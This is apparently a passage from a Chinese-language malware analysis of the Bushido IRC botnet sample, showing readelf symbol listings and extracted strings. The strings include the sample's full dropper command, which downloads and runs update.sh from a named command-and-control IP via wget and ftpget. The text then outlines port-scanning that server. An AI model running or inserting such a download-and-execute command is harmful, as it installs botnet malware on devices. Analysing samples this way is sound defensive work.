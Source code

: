 ```
339: 0000000000414c00    80 FUNC    GLOBAL HIDDEN     2 __encode_question
340: 00000000004115e4    70 FUNC    GLOBAL HIDDEN     2 __GI___uClibc_fini
342: 0000000000414ab8   163 FUNC    GLOBAL HIDDEN     2 __encode_header
343: 0000000000413234   233 FUNC    GLOBAL DEFAULT    2 getservbyname_r
344: 0000000000414a40   119 FUNC    GLOBAL HIDDEN     2 __GI_strncat
345: 000000000041162a     3 FUNC    WEAK   DEFAULT    2 __pthread_mutex_lock
346: 000000000040fc98    30 FUNC    GLOBAL DEFAULT    2 __sigdelset
```

下面我们读取以 ‘.c’ 结束的符号

```
$ readelf -s x64_ambvjcv9e0 | grep -F .c
16: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
26: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS crtstuff.c
32: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS initfini.c
35: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS Bushido-IRC.c
50: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS __syscall_fcntl.c
51: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS _exit.c
52: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS close.c
53: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS fork.c
54: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getdtablesize.c
55: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getpid.c
56: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getppid.c
57: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS getrlimit.c
58: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS ioctl.c
59: 0000000000000000     0 FILE    LOCAL  DEFAULT  ABS kill.c
```

发现了一个有趣的文件 Bushido-IRC.c（本僵尸网络名字的来源），更有意思的是，接下去我发现不需要用反编译的手段，直接用 strings 工具就可以发现该恶意样本的很多有用信息

```
$ strings ambvjcv9e0
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget hxxp://80.93.187.211/update.sh -O update.sh; busybox wget http://80.93.187.211/update.sh -O update.sh; ftpget
 -v -u anonymous -p anonymous -P 21 80.93.187.211 update.sh update.sh; busybox ftpget -v -u anonymous -p anonymous -P 21 80.93.187.211 update.sh update.sh; chmod 777 upd
ate.sh; ./update.sh; rm -rf update.sh
mirai.*
dlr.*mips
mips64
mipsel
sh2eb
sh2elf
armv5
armv4tl
armv4
armv6
i686
powerpc
```

通过浏览 strings 输出我发现了该样本的有趣信息：
1. CNC 服务器的 IP 地址
1. telnet 服务的账号和密码
1. 若干 HTTP headers 相关的字符串
1. 若干 user agent 相关的字符串
1. 大量种族主义的言论
1. 大量IRC命令和相关字符串
1. 恶意软件使用说明
1. 恶意软件更新命令和大量其他命令
1. 错误处理相关的字符串
1. libc 库函数名
1. nmap 扫描命令
1. 编译脚本的名字
通过上述字符串可以大概判断本恶意软件的功能，但是为了搞清楚其工作流程，以及如何与 CNC 服务器连接，我们需要深入分析，由于我们已经知道了 ip 地址，我们可以直接对 CNC 服务器做端口扫描